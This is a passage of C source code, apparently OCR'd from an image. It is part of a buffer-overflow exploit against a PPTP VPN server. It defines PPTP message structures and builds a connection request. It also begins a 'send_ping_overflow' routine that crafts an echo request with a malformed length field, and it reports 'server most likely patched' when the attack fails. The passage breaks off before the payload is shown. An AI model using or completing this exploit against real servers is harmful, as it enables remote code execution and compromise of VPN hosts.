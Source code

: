     struct pptp_start_ctrl_conn_rqst {
      struct pptp_header header;      /* pptp header */
      u_int16_t version;              /* pptp protocol version */
      u_int16_t reserved1;            /* reserved */
      u_int32_t framing_cap;          /* framing capabilities */
      u_int32_t bearer_cap;           /* bearer capabilities */
      u_int16_t max_channels;         /* maximum channels */
      u_int16_t firmware_rev;         /* firmware revision */
      u_int8_t hostname[MAX_HOSTNAME_SIZE];   /* hostname */
      u_int8_t vendor[MAX_VENDOR_SIZE];       /* vendor */
    };

    struct pptp_echo_rqst {
      struct pptp_header header;      /* header */
      u_int32_t identifier;           /* value to match rply with rqst */
      char buf[10000];
    };

    struct pptp_reply {
      struct pptp_header header;      /* header */
      char buf[10000];
    };

    void catch_pipe() {
      printf("Broken pipe caught, server most likely patched.\n");
      exit(1);
    }
    void send_init_request(int st)
    {
      struct pptp_start_ctrl_conn_rqst request;
      request.header.magic = htonl(PPTP_MAGIC_COOKIE);
      request.header.pptp_type = htons(PPTP_CTRL_MESSAGE);
      request.header.ctrl_type = htons(START_CTRL_CONN_RQST);

      request.version = PPTP_VERSION;
      request.framing_cap = 0;
      request.bearer_cap = 0;
      request.max_channels = 1;
      request.firmware_rev = 0;
      strcpy(request.hostname,"hell");
      strcpy(request.vendor,"domain HELL");
      request.header.length = ntohs(sizeof(request));

      send(st,(char*)&request,sizeof(request),0);
    }

    void send_ping_overflow(int st, u_int32_t ret, char *hostname, short port)
    {
      struct pptp_echo_rqst ping;
      int i, buflen = 500;

      ping.header.magic = htonl(PPTP_MAGIC_COOKIE);
      ping.header.pptp_type = htons(PPTP_CTRL_MESSAGE);
      ping.header.ctrl_type = htons(ECHO_RQST);
      ping.identifier = 111;
      ping.header.length = ntohs(1);
